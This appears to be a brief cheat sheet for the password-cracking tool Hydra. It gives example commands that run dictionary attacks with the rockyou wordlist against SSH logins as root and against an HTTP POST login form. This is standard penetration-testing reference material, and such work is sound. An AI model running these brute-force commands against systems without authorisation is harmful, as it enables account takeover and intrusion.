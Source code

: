 # Hydra

## Documentation

* [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

## Common Options

* \-l : username
* \-P : wordlist

## Examples

### SSH

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -e nsr ssh
```

### HTTP POST

```
hydra 10.0.0.1 http-form-post "/action.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```
